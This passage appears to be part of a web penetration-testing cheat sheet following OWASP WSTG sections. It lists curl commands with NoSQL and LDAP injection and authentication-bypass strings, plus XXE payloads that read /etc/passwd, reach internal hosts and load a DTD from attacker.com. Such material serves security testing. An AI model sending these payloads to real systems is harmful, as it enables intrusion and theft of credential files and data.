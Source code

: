 ```bash
curl -s "https://example.com/api/users?username[$ne]=admin"
curl -s "https://example.com/api/users?username[$regex]=^adm"
```

## WSTG-INPV-06: Testing for LDAP Injection

**Objective**: Identify LDAP injection points and assess the severity of the injection.

### Commands

```bash
# Test for basic LDAP injection
curl -s "https://example.com/ldap?user=*"
curl -s "https://example.com/ldap?user=admin*"

# Test for LDAP injection with special characters
curl -s "https://example.com/ldap?user=admin)(&))"
curl -s "https://example.com/ldap?user=admin)(|(password=*))"

# Test for authentication bypass
curl -s -X POST "https://example.com/login" -d "username=*)(|(objectClass=*)&password=anything"
curl -s -X POST "https://example.com/login" -d "username=admin)(&(password=*)&password=anything"

# Test for blind LDAP injection
curl -s "https://example.com/ldap?user=admin)(cn=*))%00"
curl -s "https://example.com/ldap?user=admin)(uid=*))(|(uid=*"

# Test for LDAP injection in different parameters
for param in "user" "username" "login" "email" "cn"; do
  curl -s "https://example.com/ldap?$param=*"
done
```

## WSTG-INPV-07: Testing for XML Injection

**Objective**: Identify XML injection points with XML Meta Characters and assess the types of exploits that can be attained and their severities.

### Commands

```bash
# Test for basic XML injection
curl -s -X POST "https://example.com/api/xml" -H "Content-Type: application/xml" -d '<?xml version="1.0"?><test>test</test>'

# Test for XML injection with meta characters
curl -s -X POST "https://example.com/api/xml" -H "Content-Type: application/xml" -d '<?xml version="1.0"?><test><![CDATA[<script>alert(1)</script>]]></test>'

# Test for XXE (XML External Entity) injection
curl -s -X POST "https://example.com/api/xml" -H "Content-Type: application/xml" -d '<?xml version="1.0"?><!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><test>&xxe;</test>'

# Test for XXE to SSRF
curl -s -X POST "https://example.com/api/xml" -H "Content-Type: application/xml" -d '<?xml version="1.0"?><!DOCTYPE test [<!ENTITY xxe SYSTEM "http://internal-server/sensitive-data">]><test>&xxe;</test>'

# Test for blind XXE using out-of-band techniques
curl -s -X POST "https://example.com/api/xml" -H "Content-Type: application/xml" -d '<?xml version="1.0"?><!DOCTYPE test [<!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd">%remote;]><test>test</test>'

# Test for XML injection in SOAP requests
```